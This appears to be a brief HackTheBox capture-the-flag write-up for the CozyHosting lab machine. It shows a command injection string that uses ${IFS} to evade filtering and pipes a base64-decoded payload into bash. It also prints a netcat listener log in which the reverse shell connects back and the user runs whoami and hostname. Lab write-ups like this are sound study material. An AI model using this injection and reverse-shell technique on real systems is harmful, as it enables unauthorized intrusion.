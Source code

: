 # Explanation
After finding out that I could do command injection, I proceeded forward by putting in a shellcode and see if I get a reverse shell using the following command.`;echo${IFS}"[payload]"|base64${IFS}-d|bash;` and I encoded the command into base 64 and ran the command which then gave me a shell.

# Encoding
![[Pasted image 20230905212157.png]]

# Command Injection
![[Pasted image 20230905212251.png]]

# Shell
```
┌──(root㉿kali)-[~/Documents/Notes/hackthebox/CozyHosting]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.2] from (UNKNOWN) [10.129.105.21] 51232
bash: cannot set terminal process group (989): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ whoami
whoami
app
app@cozyhosting:/app$ hostname
hostname
cozyhosting
app@cozyhosting:/app$ 
```